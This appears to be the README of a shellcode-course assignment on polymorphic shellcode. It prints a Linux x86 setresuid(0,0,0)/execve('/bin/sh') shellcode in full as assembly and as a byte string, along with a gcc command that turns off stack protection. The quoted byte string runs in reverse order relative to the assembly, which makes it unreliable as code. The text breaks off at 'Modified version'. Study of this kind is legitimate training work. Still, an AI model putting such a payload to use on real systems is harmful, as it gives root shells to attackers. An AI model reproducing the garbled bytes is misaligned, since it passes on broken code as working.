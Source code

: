 # Assignment 6 #

In this section, it is requested to propose a polymorphic version of three shellcodes (+1 just for fun) coming from the shellstorm platform..
 - [http://shell-storm.org/shellcode/files/shellcode-220.php](http://shell-storm.org/shellcode/files/shellcode-220.php)
 - [http://shell-storm.org/shellcode/files/shellcode-212.php](http://shell-storm.org/shellcode/files/shellcode-212.php)
 - [http://shell-storm.org/shellcode/files/shellcode-639.php](http://shell-storm.org/shellcode/files/shellcode-639.php)
 - [http://shell-storm.org/shellcode/files/shellcode-548.php](http://shell-storm.org/shellcode/files/shellcode-548.php)


The compilation in assembler is realized here with the present script [https://github.com/xophidia/Shellcode/blob/master/compile.sh](https://github.com/xophidia/Shellcode/blob/master/compile.sh).  
The compilation in C is based on the file [https://github.com/xophidia/Shellcode/blob/master/test_shellcode.c](https://github.com/xophidia/Shellcode/blob/master/test_shellcode.c).  
We use the command `gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode`


## First modification ##

Source : http://shell-storm.org/shellcode/files/shellcode-220.php

```c
{==========================================================}
{ linux x86 setresuid(0,0,0)-/bin/sh shellcode 35 bytes    }
{==========================================================}
--[code]--
BITS 32
 
; setresuid(0,0,0)
xor eax, eax
xor ebx, ebx
xor ecx, ecx
cdq
mov BYTE al, 0xa4
int 0x80
 
; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
push BYTE 11
pop eax
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push ecx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
--[/code]--
 
Shellcode string:
--[code]--
char shellcode [] =
"\x80\xcd\xe1\x89\x53\xe2\x89\x51\xe3\x89\x6e\x69\x62\x2f\x68\x68\x73\x2f\x2f\x68\x51\x58\x0b\x6a\x80\xcd\xa4\xb0\x99\xc9\x31\xdb\x31\xc0\x31"
-[/code]-
 
# milw0rm.com [2008-09-29]
```
Modified version
